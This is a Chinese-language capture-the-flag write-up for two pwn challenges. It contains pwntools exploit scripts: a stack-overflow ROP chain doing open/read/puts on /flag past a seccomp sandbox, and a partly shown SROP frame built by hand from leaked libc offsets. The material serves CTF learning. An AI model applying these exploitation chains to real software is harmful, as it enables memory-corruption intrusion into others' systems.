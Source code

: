 ### warmup

只能溢出 0x10 字节，但是上一个栈帧的 `buf` 空间较大且可控，因此可以多 ret 一次回到上一个栈帧的 `buf` 里构造 ROP 链。此外，程序开启了 seccomp 沙箱禁止 `execve`，因此我们只能构造 ORW 读 flag。幸运的是题目直接给了 puts 地址，可以得到 libc 地址从而使用 libc 的 gadgets，而 ORW 使用的缓冲区也可以利用 libc 的 rw 段。

```python
ru('0x')
puts = int(ru('\n'),16)
base = puts-libc.sym['puts']
leak('base',base)
pop_rdi = base+0x21102
pop2 = base+0x1150c9 # rdx,rsi
ret = base+0x937
open = base+libc.sym['open']
read = base+libc.sym['read']
buf = base+libc.sym['_IO_2_1_stderr_']

chain = [
	# read(0,buf,8)
	pop_rdi,0,pop2,8,buf,read,
	# open(buf,0,0)
	pop_rdi,buf,pop2,0,0,open,
	# read(3,buf,0x100)
	pop_rdi,3,pop2,0x100,buf,read,
	# puts(buf)
	pop_rdi,buf,puts
]
sa('thing:',flat(chain))
payload = flat('a'*0x70,'a'*8,ret)
sa('name?',payload)
s('/flag\x00\x00\x00')
```

### babybabypwn_1

看到程序主动调用 `syscall(15,&buf)` 可知是 SROP，我们需要在 `buf` 里放伪造的 Sigreturn Frame，然后程序就会调用 `rt_sigreturn` 恢复我们伪造的 frame。同样开启了沙箱，依然是构造 ORW 读 flag。

这里在使用 `pwnlib.rop.srop` 模块时，用 `SigreturnFrame` 构造时出现了一些问题，暂时还不清楚原因，使用了手动构造 frame 的办法。


```python
ru('0x')
puts = int(ru('\n'),16)
base = puts-libc.sym['puts']
leak('base',base)
pop_rdi = base+0x21102
pop2 = base+0x1150c9
syscall = base+libc.sym['syscall']
open = base+libc.sym['open']
read = base+libc.sym['read']
buf = base+0x3c6500

frame  = p64(0) * 12
frame += p64(0)         # rdi
frame += p64(0)         # rsi
frame += p64(0)         # rbp
frame += p64(0)         # rbx
frame += p64(buf-0x10)  # rdx
frame += p64(0)         # rax
frame += p64(0x100)     # rcx
frame += p64(buf)       # rsp
frame += p64(syscall)   # rip
frame += p64(0)         # eflags
frame += p64(0x33)      # cs/fs/gs
```